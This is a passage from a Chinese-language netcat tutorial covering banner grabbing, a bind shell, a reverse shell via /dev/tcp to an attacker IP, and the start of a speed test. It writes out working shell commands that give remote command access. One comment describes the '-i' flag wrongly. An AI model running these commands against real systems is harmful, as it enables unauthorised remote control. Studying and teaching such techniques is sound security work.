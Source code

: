 
*   抓取Banner信息

    # 一旦发现开放的端口，可以容易的使用ncat 连接服务抓取他们的banner
    $ nc -v 172.31.100.7 21
    

*   正向Shell

正向shell是指攻击机主动连接靶机，并取得shell。通俗点说就是靶机自己绑定某个端口，等攻击机连接后将收到的数据给bash或cmd(后文简称shell)，执行结果再丢给攻击机。

    # 正向shell是目标机(被攻击方)先执行nc命令，然后攻击机(攻击方)上再进行nc连接，即可反弹shell
    # 正向shell需要目标机安装nc
    # 正向shell 需要目标机firewalld可过滤
    
    
    # target: 目标服务器系统(被攻击方)
    target$ nc -lkvp 7777 -e /bin/bash
    
    # attack: 攻击者系统(攻击方)
    attack$ nc Target-IP 7777
    

*   反向shell

反向shell就是靶机带着shell来连攻击机，好处显而易见就是不用担心防火墙的问题了，当然也不是没有缺点；缺点就是攻击机的IP必须能支持靶机的主动寻址，换句话来说就是攻击机需要有公网IP地址；举个例子如攻击机是内网ip或经过了NAT，靶机是公网IP，即使取得了命令执行权限靶机也无法将shell弹过来，这是网络环境的问题。

    # attack: 攻击者系统(攻击方)
    # -k: 当客户端从服务端断开连接后，过一段时间服务端也会停止监听;通过选项 -k 可以强制服务器保持连接并继续监听端口;即使来自客户端的连接断了server也依然会处于待命状态;
    attack$ nc -lkvnp 6677
    
    # target: 目标服务器系统(被攻击方)
    # -i: 指定断开的时候,单位为秒
    Client$ sh -i >& /dev/tcp/192.168.188.69/6677 0>&1
    

*   测试网速

    # 服务端
    Server$ nc -l <port> > /dev/null
    